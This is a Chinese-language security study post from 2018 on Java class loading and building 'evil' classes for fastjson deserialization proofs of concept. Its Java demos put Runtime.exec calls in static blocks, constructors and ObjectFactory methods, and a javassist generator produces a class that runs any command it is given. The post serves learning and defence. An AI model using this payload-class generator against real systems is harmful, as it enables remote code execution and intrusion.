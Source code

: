 Title: Java反序列化漏洞学习实践六：类的加载机制和恶意类构造
Date: 2018-11-26 18:04
Category: 漏洞实践
Tags: Java,反序列化,漏洞
Slug: 
Authors: bit4
Summary: 

### **0x0、背景说明**

在fastjson的反序列化漏洞PoC中，有一种是利用了static{}静态代码块在类的初始化（加载过程的一个环节）时会被执行这种特性。本文主要总结该思路中恶意类的构造方法和其触发方式，以全面了解fastjson反序列化漏洞PoC构造的过程。

本文是个人学习的记录总结，如有错误烦请[指出](https://github.com/bit4woo/code2sec.com/issues)，谢谢！

### **0x1、恶意类构造及其触发方式**

如思维导图所示，总结了可以构造恶意类的几种方式：

1. 利用静态代码块，在类的加载环境---初始化时被执行。（重点）
2. 利用构造函数，在类实例化时执行。当然，在它前面必须执行初始化过程。
3. 利用自定义函数，需要在函数调用时执行。
4. 利用接口的重写方法，应该也是在函数调用时执行。

![](xmind/恶意类的构造-by bit4.png)

demo代码：

```java
import java.io.IOException;
import java.util.Hashtable;

import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;

public class  evilClassTest{
    public static void main(String[] argv){
        try {
			//触发方式1
        	Class<?> xxx = Class.forName("EvilClasses.evilClazz");//只会执行静态代码块中的命令。
        	evilClazz cs = (evilClazz)xxx.newInstance();//这里触发构造函数中的命令。
        	
        	Class<?> yyy = Class.forName("EvilClasses.evilClazz",true,ClassLoader.getSystemClassLoader());
        	//只会执行静态代码块中的命令,但它可以执行指定类加载器，更为灵活
        	evilClazz cs1 = (evilClazz)yyy.newInstance();//这里触发构造函数中的命令。
        	
        	
        	//触发方式2
    		Class<?> c1 = ClassLoader.getSystemClassLoader().loadClass("EvilClasses.evilClazz"); //这里不会触发静态代码块，因为是隐式加载方式。
    		c1.newInstance();//这里会触发静态代码块后，触发构造函数
			
    		
			//触发方式3，应该和方式2本质上是一样的！
        	new evilClazz();   //会执行静态代码块和构造函数中的命令
        	
        	
        	//触发方式4
        	new evilClazz().fun();//静态代码，构造函数，自定义函数都会触发。函数调用方式，不用多说
        	
        	//凡是能触发构造函数中代码的方法，都能触发静态代码块中的代码；凡是能触发自定义动态函数中代码的方法，都能触发静态代码块中的方法。
        	
        	//getObjectInstance()函数的代码如何触发？和web框架环境有关系，需要学习！！
        	
        	
		} catch (Exception e) {
			e.printStackTrace();
		}
    }
}

class evilClazz implements ObjectFactory{
	public static String aaa;
	
	//静态代码块命令执行
    static
    {
        try {
            Runtime.getRuntime().exec("explorer.exe");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
	
	//构造函数命令执行
    evilClazz(){
        try{
            Runtime.getRuntime().exec("calc");
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    
    //自定义函数
    public void fun() {
        try{
            Runtime.getRuntime().exec("notepad.exe");
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    
    //getObjectInstance命令执行,是因为实现了ObjectFactory接口。
    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
    	try {
			Runtime.getRuntime().exec("mstsc.exe");
		} catch (IOException e) {
			e.printStackTrace();
		}
        return null;
    }
}

```

 

### 0x2、用javassist字节码操作动态创建恶意类

为什么需要动态创建恶意类？

1.防止缓存。因为类的加载是有缓存的？？？当短时间重复加载一个类时可能不会执行加载过程，从而命令执行失败？？？（不确定）

2.动态输入命令，更加灵活。

```java
import java.io.File;
import java.net.URL;
import java.net.URLClassLoader;

import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import javassist.CtField;
import javassist.CtMethod;
import javassist.CtNewMethod;
import javassist.bytecode.AccessFlag;

public class createEvilClass {
	
	public static byte[] create(String cmd) {
		
		ClassPool pool = ClassPool.getDefault();
		//会从classpath中查询该类
		CtClass evilclass = pool.makeClass("Evil");
		try {
			CtField f= new CtField(CtClass.intType,"id",evilclass);//获得一个类型为int，名称为id的字段
			f.setModifiers(AccessFlag.PUBLIC);//将字段设置为public
			evilclass.addField(f);//将字段设置到类上
			
			//添加静态代码块
			CtConstructor ci = evilclass.makeClassInitializer();
			ci.setBody("{try{Runtime.getRuntime().exec(\""+cmd+"\");}catch(Exception e){e.printStackTrace();}}");
			 
			//添加构造函数
			CtConstructor ctConstructor1 = new CtConstructor(new CtClass[]{}, evilclass);//指定参数构造器
	        ctConstructor1.setBody("{try{Runtime.getRuntime().exec(\""+cmd+"\");}catch(Exception e){e.printStackTrace();}}");//$1代表第一个参数，$2代表第二个参数，$0代表this
			evilclass.addConstructor(ctConstructor1);
			
			//添加方法
			CtMethod helloM=CtNewMethod.make("public void fun(){try{Runtime.getRuntime().exec(\""+cmd+"\");}catch(Exception e){e.printStackTrace();}}",evilclass);
			evilclass.addMethod(helloM);
			
			evilclass.writeFile("D:\\");//将生成的.class文件保存到磁盘
			byte[] b=evilclass.toBytecode();
			
			return b;
		}catch(Exception e) {
			e.printStackTrace();
		}
		return null;
	}
	
	public static void main(String[] args) {

		
/*		//从本地或者网络加载类
		try {
			File file = new File("D:\\");
			URL url = file.toURL();
			URL[] urls = new URL[]{url};
			ClassLoader cl = new URLClassLoader(urls);
			Class cls = cl.loadClass("Evil");
			cls.newInstance();
			//
			
			
		} catch (Exception e) {
			e.printStackTrace();
		}*/
		
		
		try {
			File file = new File("D:\\");
			URL url = file.toURL();
			URL[] urls = new URL[]{url};
			ClassLoader cl = new URLClassLoader(urls);
			Class yyy = Class.forName("Evil",true,cl);
			
		} catch (Exception e) {
			e.printStackTrace();
		}
		
		
		byte[] st = createEvilClass.create("calc");
	}

}
```

通过Bytecode Viewer查看生成的代码，并尝试加载，以测试是否正确。

![](img/JavaDeserStep6/Evil.class.png)



### 0x3、参考

[技术专栏 | 深入理解JNDI注入与Java反序列化漏洞利用](https://mp.weixin.qq.com/s?__biz=MjM5NzE1NjA0MQ==&mid=2651198215&idx=1&sn=929dd320ac2b17682e6c7d3f163f6985&chksm=bd2cf6a18a5b7fb758e4000c253adba90de67f72527ae1525a1d6722a09a85a06c8d800a08a7&scene=0#rd)

[defineClass在java反序列化当中的利用](https://xz.aliyun.com/t/2272)

[秒懂Java动态编程（Javassist研究）](https://blog.csdn.net/ShuSheng0007/article/details/81269295)